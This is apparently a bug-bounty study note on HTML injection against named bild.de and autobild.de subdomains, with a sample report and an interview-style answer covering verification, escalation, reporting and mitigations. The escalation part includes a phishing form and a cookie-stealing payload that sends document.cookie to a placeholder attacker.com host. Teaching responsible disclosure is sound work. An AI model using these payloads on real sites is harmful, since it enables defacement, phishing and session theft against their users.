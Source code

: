 - **Details**:
  - Subdomain: e.g., `sportbild.bild.de`.
  - Endpoint: e.g., `/themes`.
  - Vulnerability: HTML injection.
  - Payload: `<div style="color:red;">Hacked by Mega7</div>`.
  - Steps:
    1. Submitted payload in search form (`/themes?q=`).
    2. Confirmed red div rendered in response.
  - Impact: “Defaces page, enables phishing, or escalates to XSS.”
- **Evidence**:
  - Screenshot of rendered HTML (e.g., red div).
  - HTTP request/response showing reflection.
- **Severity**: Low (defacement) to High (XSS escalation).
- **Mitigation**:
  - Encode outputs with `htmlspecialchars`.
  - Implement CSP.

---

### Advanced Interview Question
**Question**: If you find HTML injection on `club.autobild.de`’s profile page, how would you verify, escalate, and report it?

**Answer**:
- **Verification**:
  - Submit `<b>Test</b>` as a display name via `/profile`.
  - Confirm it renders bold in the browser.
  - Test `<img src=x onerror=alert('XSS')>` to check for XSS escalation.
  - Use Burp Repeater to analyze responses.
- **Escalation**:
  - Inject a phishing form: `<form action="attacker.com">`.
  - Show session theft with `<img src=x onerror=fetch('attacker.com?cookie='+document.cookie)>`.
  - Highlight stored impact: “Affects all profile visitors.”
- **Reporting**:
  - Submit via Intigriti:
    - Subdomain: `club.autobild.de`.
    - Endpoint: `/profile`.
    - Payload: `<div style="color:red;">Hacked</div>`.
    - Steps, screenshot of rendered div.
    - Impact: “Enables defacement, phishing, or XSS.”
  - Suggest mitigations: output encoding, CSP.
- **Ethics**: Use test accounts, avoid real user impact.

---

